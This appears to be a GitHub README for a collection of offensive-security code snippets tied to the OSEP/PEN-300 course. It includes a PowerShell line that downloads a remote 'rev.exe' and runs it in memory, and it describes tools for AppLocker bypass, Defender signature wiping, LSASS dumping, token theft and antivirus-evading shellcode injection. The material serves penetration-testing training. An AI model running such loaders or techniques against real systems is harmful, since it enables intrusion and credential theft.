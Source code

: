 # OSEP Code Snippets
Code examples are provided as-is, without any form of warranty. Based on Offensive Security's [PEN-300](https://www.offensive-security.com/pen300-osep/) course.

Classes and methods are public, so most binaries should allow for reflective loading as below.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
```

### Contents
|Snippet Name|Description|
|--|--|
| AppLocker Bypass PowerShell Runspace (C#) | Base binary for an applocker bypass using a combination of `CertUtil`, `BitsAdmin`, and `InstallUtil`. See `README.md` for details.|
| Fileless Lateral Movement (C#) | Wipes Windows Defender signatures on the remote host and uses a PSExec-like method (except using an existing process) to achieve lateral movement. Takes arguments for the target, the target service, and the target binary to run. Note that a non-critical service should be chosen, such as `SensorService`. |
|Linux Shellcode Encoder (Python) | Utility scripts to encode C# payloads from Linux, either ingesting a raw shellcode payload (.bin), or automatically feeding from 'msfvenom'. Supports XOR and ROT encoding with an arbitrary key, and prints the decoding function. Can be used to replace the C# ROT/XOR encoder scripts.|
|Linux Shellcode Loaders (C) |Various C-based shellcode loaders, including base binaries for library hijacking.|
|MiniDump (C# & PS1) |A simple binary to Dump LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as native PowerShell script.|
|MSSQL (C#)|An example binary that includes a variety of discussed MSSQL interactions. Change the code to include only what you need.|
|PrintSpoofer.NET (C#)|Steals the token of the incoming authentication forced with the [PrintSpooler exploit](https://github.com/leechristensen/SpoolSample), and use that token to run a given binary. Modified to not require an interactive logon session. Takes arguments for the pipe name and binary to run.|
|ROT Shellcode Encoder (C#)|A simple binary to apply state-of-the-art ROT encoding to obfuscate the shellcode. It takes an argument for the number of rotations.|
|Sections Shellcode Process Injector (C#)|Injects and runs shellcode using `NtCreateSection`, `NtMapViewOfSection`, `NtUnMapViewOfsection` and `NtClose` instead of the "standard" method.|
|Shellcode Process Hollowing (C#)|Hollows a `svchost` process and runs the shellcode from there. Scores 0/68 on VirusTotal at the time of writing.|
|Shellcode Process Injector (C# & PS1) | Simple shellcode runner that applies process injection. Accepts an argument for the process to inject into. If no argument is given, it attempts to pick a suitable process based on privilege level. Also provided as native PowerShell script (though it is a bit simpler).|
|Simple Shellcode Runner (C# & PS1 & VBA)|The simplest of shellcode runners. Also provided as native PowerShell and VBA scripts.|
|XOR Shellcode Encoder (C#)|A simple binary to apply state-of-the-art XOR encoding to obfuscate the shellcode.|
|Nt Shellcode Process Injector (C#)|Shellcode runner that applies process injection with NT Map Injection|

